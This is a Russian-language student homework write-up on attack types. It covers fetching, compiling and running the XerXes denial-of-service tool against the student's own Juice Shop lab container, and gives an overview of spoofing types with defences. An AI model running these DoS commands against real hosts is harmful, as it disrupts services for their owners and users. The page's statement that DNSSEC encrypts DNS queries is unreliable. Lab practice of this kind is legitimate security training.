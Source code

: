 # Домашняя работа № 8
## Типы атак 2
_Spam, DDOS, botnet, MIM, Viruses_

### Провести DOS атаку на Juice Shop:
  - Запустить container juice shop и произвести dos
  - XerXes - Most powerful dos tool bY mR.Thg
  - Сделать скрин нагрузки на docker container 
вывод команды >top
<details open><summary>Выполнение:</summary>
Установила XerXes на машине с Linux (CentOS):<br>
  
```
mkdir /opt/tms-tools/
cd /opt/tms-tools/
wget "https://github.com/XCHADXFAQ77X/XERXES/archive/refs/heads/master.zip"
unzip master.zip
cd XERXES-master/
gcc -o xerxes xerxes.c
```
И запустила (в hosts у меня прописано соответствие домена juice-shop.tms IP-адресу машины, где живёт juice shop):

```
./xerxes juice-shop.tms 80
```

Нагрузки особой я не заметила, только в top'е на первое место вышел node.js. Вот до атаки:

![](pics/8_kali_top_without_dos.png)

Вот во время атаки:

![](pics/8_kali_top_dosed.png)

</details>

```
#!/bin/bash
set -xe
sudo apt update -y
sudo apt install -y docker
sudo service docker start
sudo usermod -aG docker $USER
sudo docker pull bkimminich/juice-shop
sudo docker run -d -p 80:3000 bkimminich/juice-shop
```

### Изучить типы и средства spoofing’a лекции.

<details><summary>Материал:</summary>

# Что такое Spoofing?

_**Spoofing (спуфинг)**_ — это такой способ обмана, когда злоумышленник подделывает информацию, чтобы выдать себя за кого-то другого. Основная цель — заставить систему или пользователя поверить, что они взаимодействуют с чем-то или кем-то доверенным, хотя на самом деле это не так. Т.е., грубо говоря, "подмена личности", чтобы ввести в заблуждение с целью получения информации.

Спуфинг охватывает различные методы обмана, и защита от него требует как технических мер, так и внимательности со стороны пользователей. Регулярное обновление ПО, правильная настройка безопасности и внимательное отношение к подозрительным действиям помогут защитить себя и свою систему от атак.

## Основные виды спуфинга и меры защиты:
### IP Spoofing (Подмена IP-адреса):

_**Описание:**_ Злоумышленник может заставить систему думать, что подключение идёт с доверенного IP-адреса, хотя на самом деле это не так.
Обычно это делается для того, чтобы скрыть реальное местоположение атакующего, обойти ограничения по IP или провести DDoS-атаку.<br>
_**Защита:**_ Используйте межсетевые экраны (firewalls), чтобы блокировать подозрительные IP-адреса. Включите проверку исходного IP-адреса в сетевых устройствах.

### Email Spoofing (Подмена адреса электронной почты):

_**Описание:**_ Подменяется адрес отправителя в электронном письме, чтобы оно выглядело как отправленное от лица, которому вы доверяете.<br>
Такой подход часто используется для фишинга, когда жертва получает письмо, которое кажется официальным, и может передать свои данные или деньги, думая, что общается с реальной организацией.<br>
_**Защита:**_ Настройте SPF, DKIM и DMARC для своего домена, чтобы снизить риск подделки писем. Будьте внимательны к подозрительным письмам, особенно если не знаете отправителя.

### DNS Spoofing (Подмена DNS-запросов):

_**Описание:**_ Здесь подменяется ответ на DNS-запрос. Злоумышленник может перенаправить пользователя с законного сайта на свой собственный, вредоносный сайт.
Этим способом можно обманом получить доступ к данным пользователя или заразить его устройство вредоносным ПО.<br>
_**Защита:**_ Используйте DNSSEC для шифрования DNS-запросов и защищайте свои DNS-сервера от атак. Регулярно проверяйте и обновляйте свои DNS-настройки.

### ARP Spoofing (Подделка ARP-запросов):

_**Описание:**_ Подменяются запросы и ответы ARP, чтобы направить трафик на своё устройство.<br>
В результате злоумышленник может перехватить сетевой трафик, получить доступ к конфиденциальным данным или провести атаку типа "человек посередине".<br>
_**Защита:**_ Используйте фильтрацию MAC-адресов и статические ARP-записи, если это возможно. Применяйте инструменты мониторинга сети, чтобы выявлять подозрительную активность.

### Caller ID Spoofing (Подделка номера телефона):

_**Описание:**_ Подмена номера телефона, чтобы казаться звонком от доверенного источника.
Часто используется в мошеннических целях, когда, например, звонящий утверждает, что он представитель банка, чтобы выудить у вас личные данные.<br>
_**Защита:**_ Будьте осторожны при ответе на звонки с неизвестных номеров, особенно если звонящий просит передать конфиденциальную информацию. По возможности используйте сервисы, которые позволяют проверить подлинность номера.

</details>



### Ссылки на дополнительные ресурсы
 [XerXes - Most powerful dos tool bY mR.Thg](https://github.com/XCHADXFAQ77X/XERXES)
